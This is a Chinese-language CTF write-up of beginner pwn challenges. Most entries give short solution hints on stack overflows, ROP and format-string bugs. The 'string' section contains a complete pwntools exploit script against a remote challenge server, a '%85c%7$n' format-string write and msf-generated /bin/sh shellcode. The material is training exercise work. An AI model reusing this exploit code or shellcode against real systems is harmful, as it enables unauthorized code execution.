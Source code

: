 ## pwn新手练习区
### get_shell
题目：运行就能拿到shell呢，真的

思路：

### CGfsb296
题目：菜鸡面对着pringf发愁，他不知道prinf除了输出还有什么作用

思路：利用格式化字符串漏洞利用方法读写任意地址

### when_did_you_born12
题目：只要知道你的年龄就能获得flag，但菜鸡发现无论如何输入都不正确，怎么办

思路：简单的栈溢出，利用字符串变量覆盖另一个变量

### hello_pwn
题目：pwn！，segment fault！菜鸡陷入了深思

思路：简单的栈溢出，利用字符串变量覆盖另一个变量

### level0
题目：菜鸡了解了什么是溢出，他相信自己能得到shell

思路：简单的64位栈溢出

### level2
题目：菜鸡请教大神如何获得flag，大神告诉他‘使用`面向返回的编程`(ROP)就可以了’

思路：简单的栈溢出，利用ROP获得shell

### cgpwn2
题目：菜鸡认为自己需要一个字符串

思路：简单的栈溢出，首先利用一个固定地址的全局变量保存/bin/sh字符串，然后利用ROP获得shell

### string
题目：菜鸡遇到了Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

思路：简单的64位格式化字符串漏洞，先利用改漏洞修改一个堆上的变量，然后写入shellcode即可

解题：函数sub_400BB9存在格式化字符串漏洞，直接使用printf输出了format变量，这里首先确定可控制字符串format的偏移。有两种方法。

#### 偏移计算一：通过逆向和调试确定分析调用printf之前栈的分布

栈顶8个字节（没什么作用），往下8个字节的v2变量，再往下是format字符串。
```
rsp    --> 8字节垃圾
rsp+8  --> 8字节变量v2
rsp+16 --> format字符串
```

由于64位传参时，前6个参数使用寄存器，这里第一个参数是rdi，也就是format地址本身，后面5几个寄存器依次保存5个参数，栈顶8个字节是第6个参数，v2是第第7个参数，format是8个参数，因此偏移为8。

#### 偏移计算二：使用pwntools工具包自动计算
```python
context.bits = 64

def leak(payload):
    sh = remote('220.249.52.133', 59913)
    sh.recvuntil('be:\n')
    sh.sendline('1')
    sh.recvuntil('up?:\n')
    sh.sendline('east')
    sh.recvuntil('?:\n')
    sh.sendline('1')
    sh.recvuntil("'\n")
    sh.sendline('1')
    sh.recvuntil(':\n')
    sh.sendline(payload)
    info = sh.recvuntil('I hear')
    sh.close()
    return info

autofmt = FmtStr(leak)
print(autofmt.offset)
```

下面分析需求修改的变量，通过逆向分析，程序初始化了两个变量，一个为字符D，一个为字符U，如果这两个变量相等可以进入输入shellcode的逻辑，正常情况是不可能的，这里就利用字符串格式化漏洞实现。首先输入v2变量，内容为secret[0]的地址，然后format输入以下内容 %85c%7$n ,将第7个参数（v2）指向的内容写入85，也就是字符U。

后续输入shellcode可以使用pwntools，我这里是通过msf生成的。全部代码如下：
```python
def execute():
    sh = remote('220.249.52.133', 59913)
    info = sh.recvuntil('be:\n')
    info = str(info, encoding='utf8')
    addr = ''
    for line in info.split('\n'):
        if '[0]' in line:
            # 保存待修改变量地址
            addr = line.split(' ')[-1].strip()
            break
    print('secret addr:')
    print(addr)
    addr = int(addr, 16)

    sh.sendline('1')
    sh.recvuntil('up?:\n')
    sh.sendline('east')
    sh.recvuntil('?:\n')
    sh.sendline('1')
    sh.recvuntil("'\n")
    # 将待修改变量地址写入v2
    sh.sendline(str(addr).encode('utf8'))
    sh.recvuntil(':\n')
    
    # 利用这段payload修改变量
    payload = r'%85c%7$n'
    print(payload)
    sh.sendline(payload)
    print(sh.recvuntil('USE YOU SPELL'))

    # 写入shellcode
    shellcode = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" + "\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" + "\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57" + "\x48\x89\xe6\x0f\x05"
    sh.sendline(shellcode)
    sh.interactive()
````

### guess_num
题目：菜鸡在玩一个猜数字的游戏，但他无论如何都银不了，你能帮助他么

思路：简单的栈溢出，覆盖产生随机数的种子变量，然后爆破随机数序列即可
